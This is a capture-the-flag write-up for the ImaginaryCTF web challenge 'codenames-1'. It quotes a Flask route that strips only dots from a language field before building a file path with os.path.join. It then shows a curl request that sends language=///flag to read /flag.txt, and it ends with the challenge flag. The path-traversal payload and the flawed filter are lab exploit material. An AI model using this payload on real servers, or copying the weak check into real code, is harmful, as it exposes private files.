

# codenames-1

```
by Eth007
Description

I hear that multilingual codenames is all the rage these days. Flag is in /flag.txt.

http://codenames-1.chal.imaginaryctf.org/ (bot does not work on this instance, look at codenames-2 for working bot)
```

In attachment the source code is provided. The flag is store in `/flag.txt`, and there is a file read vulnerability:

```python
@app.route('/create_game', methods=['POST'])
def create_game():
    if 'username' not in session:
        return redirect(url_for('index'))
    # generate unique code
    while True:
        code = ''.join(random.choices(string.ascii_uppercase + string.digits, k=6))
        if code not in games:
            break
    # prepare game with selected language word list
    # determine language (default to first available)
    language = request.form.get('language', None)
    if not language or '.' in language:
        language = LANGUAGES[0] if LANGUAGES else None
    # load words for this language
    word_list = []
    if language:
        wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
```

Although it filters out `.`, we can use `/flag` to access `/flag.txt`:

```shell
$ curl 'http://codenames-1.chal.imaginaryctf.org/create_game' \
$       -X POST \
$       -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0' \
$       -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
$       -H 'Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3' \
$       -H 'Accept-Encoding: gzip, deflate' \
$       -H 'Content-Type: application/x-www-form-urlencoded' \
$       -H 'Origin: http://codenames-1.chal.imaginaryctf.org' \
$       -H 'Sec-GPC: 1' \
$       -H 'Connection: keep-alive' \
$       -H 'Referer: http://codenames-1.chal.imaginaryctf.org/lobby' \
$       -H 'Cookie: session=REDACTED' \
$       -H 'Upgrade-Insecure-Requests: 1' \
$       -H 'Priority: u=0, i' --data "language=///flag"
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/game/GUJIPV">/game/GUJIPV</a>. If not, click the link.
```

Then, we just use the accounts to join the game, and we can find the flag in the game:



Get flag: `ictf{common_os_path_join_L_b19d35ca}`.
